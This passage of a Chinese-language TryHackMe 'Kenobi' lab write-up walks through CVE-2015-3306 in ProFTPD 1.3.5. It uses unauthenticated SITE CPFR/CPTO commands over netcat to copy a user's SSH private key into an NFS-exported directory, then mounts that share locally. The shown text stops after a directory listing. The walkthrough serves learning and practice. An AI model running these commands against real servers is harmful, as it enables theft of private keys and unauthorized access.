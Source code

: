 看官方文件好像是 ProFTPD 1.3.5 有以下漏洞  
可以下 `SITE CPFR` 跟 `SITE CPTO`  
不太明白這兩個指令  
好像是未授權下可以複製任意貼到任意地方？

> 利用漏洞 成功把 id_rsa 複製到 mount NFS 可取得的地方
```!=
└─$ nc 10.201.110.192 21      
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.201.110.192]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

> - 這是 **ProFTPD 1.3.5 的已知漏洞** (CVE-2015-3306)
> - `SITE CPFR` (Copy From): 指定要複製的源文件
> - `SITE CPTO` (Copy To): 指定複製的目標位置
> - 這個漏洞允許**未經認證的用戶**複製文件到可訪問的目錄
> - 此題可利用此漏洞把 SSH 私鑰從 `/home/kenobi/.ssh/id_rsa` 複製到 NFS 目錄 `/var/tmp/id_rsa`
> * 先 `SITE CPFR <原路徑>` 得到 `350`（ready），再 `SITE CPTO <目標>` 得到 `250 Copy successful`。


### 掛載 NFS 共享目錄

在本機建立一個目錄用來掛載 mount
```!=
┌──(kali㉿kali)-[~/tryhackme/Kenobi]
└─$ sudo mkdir /mnt/kenobiNFS      
[sudo] password for kali: 
               
┌──(kali㉿kali)-[~/tryhackme/Kenobi]
└─$ cd /mnt/kenobiNFS 

┌──(kali㉿kali)-[/mnt/kenobiNFS]
└─$ ls

```

第一次使用 mount 工具  
不太懂功能  
還要用 root 權限才可以使用  
可以透過本地的 `/mnt/kenobiNFS` 目錄  
遠端讀寫 `10.201.110.192:/var` 目錄內的資料  

> 使用 mount 把 NFS 掛載到本機

```!=
┌──(kali㉿kali)-[~/tryhackme/Kenobi]
└─$ mount 10.201.110.192:/var /mnt/kenobiNFS 
mount.nfs: failed to apply fstab options
                     
┌──(kali㉿kali)-[~/tryhackme/Kenobi]
└─$ sudo mount 10.201.110.192:/var /mnt/kenobiNFS
                          
┌──(kali㉿kali)-[~/tryhackme/Kenobi]
└─$ ls -la /mnt/kenobiNFS
total 56
drwxr-xr-x 14 root root  4096 Sep  4  2019 .
drwxr-xr-x  3 root root  4096 Oct 22 14:47 ..
drwxr-xr-x  2 root root  4096 Sep  4  2019 backups
drwxr-xr-x 15 root root  4096 Aug 10 14:48 cache
drwxrwxrwt  2 root root  4096 Sep  4  2019 crash
drwxr-xr-x 51 root root  4096 Aug 10 14:48 lib
drwxrwsr-x  2 root staff 4096 Apr 13  2016 local
lrwxrwxrwx  1 root root     9 Sep  4  2019 lock -> /run/lock
drwxrwxr-x 13 root _ssh  4096 Oct 22 14:03 log
```